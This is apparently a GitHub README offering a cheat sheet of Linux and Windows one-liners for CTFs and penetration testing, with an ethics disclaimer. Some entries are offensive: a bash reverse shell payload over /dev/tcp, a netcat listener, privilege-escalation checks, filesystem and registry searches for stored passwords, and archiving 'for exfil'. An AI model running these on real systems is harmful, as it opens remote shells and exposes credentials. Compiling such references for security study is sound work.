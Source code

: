 # ⚙️ Awesome CMD One-Liners for Linux & Windows

Welcome to my personal collection of powerful one-liners for Linux and Windows, forged from real-world cybersecurity tasks, CTFs, and daily command-line wizardry. Whether you're enumerating a system, grabbing credentials, or scripting on the fly, these one-liners are here to get the job done fast.

---

## ⚠️ Legal & Ethical Disclaimer

This repository is **intended for educational and ethical purposes only.**  
Do not use these commands on any system without **explicit permission.**  
You are fully responsible for any misuse or damage caused by improper application.

---

## 🐧 Linux One-Liners (15)

| Command | Description |
|--------|-------------|
| `find / -perm -4000 2>/dev/null` | 🔍 Find all SUID binaries — great for local privilege escalation |
| `nc -lvnp 4444` | 🦻 Start a listener on port 4444 using netcat |
| `curl ifconfig.me` | 🌍 Get your public IP address via CLI |
| `cat /etc/passwd | cut -d: -f1` | 👤 List all user accounts on a Linux system |
| `grep -r "password" / 2>/dev/null` | 🔑 Hunt for password strings across the filesystem |
| `sudo -l` | 🧯 Check sudo privileges — useful for escalation |
| `ip a` | 📡 View all IP addresses and interfaces |
| `wget http://[IP]/file` | 📥 Download a file from a remote server (HTTP) |
| `scp user@host:/path/to/file .` | 📦 Securely copy a remote file to your system |
| `chmod +x script.sh && ./script.sh` | 🛠️ Make a script executable and run it |
| `echo 'bash -i >& /dev/tcp/IP/PORT 0>&1'` | 🐚 Quick reverse shell payload |
| `tar -cvf archive.tar folder/` | 📦 Archive a folder (useful for exfil or CTF) |
| `history | grep ssh` | 📜 Look through command history for past SSH usage |
| `ps aux | grep python` | 🧪 Check if any Python processes are running |
| `ls -laR /home/ 2>/dev/null | grep flag` | 🚩 Recursively search user dirs for a CTF flag |

---

## 🪟 Windows One-Liners (5)

| Command | Description |
|--------|-------------|
| `whoami /priv` | 🔐 Display user privileges — great for privesc |
| `netstat -ano` | 🌐 View active connections with associated PIDs |
| `type C:\Users\*\Desktop\*.txt` | 📂 Read all .txt files on user desktops (CTF classic) |
| `Get-LocalUser | Select Name, Enabled` | 👥 List local users and check which are active (PowerShell) |
| `reg query HKLM /f password /t REG_SZ /s` | 🕵️‍♂️ Search Windows registry for stored plaintext passwords |

---

## 📎 How to Use

Clone this repo, keep it in your terminal cheat sheet folder, or memorize them.  
Want more? I plan to expand this with categorized sections like **Web**, **Network**, **Forensics**, and more.

---

## 🤝 Contributions

Found a cool one-liner or have a tip? Open a pull request or drop an issue, sharing is caring!

---

> 🧠 "One good command can save hours of hard work."
